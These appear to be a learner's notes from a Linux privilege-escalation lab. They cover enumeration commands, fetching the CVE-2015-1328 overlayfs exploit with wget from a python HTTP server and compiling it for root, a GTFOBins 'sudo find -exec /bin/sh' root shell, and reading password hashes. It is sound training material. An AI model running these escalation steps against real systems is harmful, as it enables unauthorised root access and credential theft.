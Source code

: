 # TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


# TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


# TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)
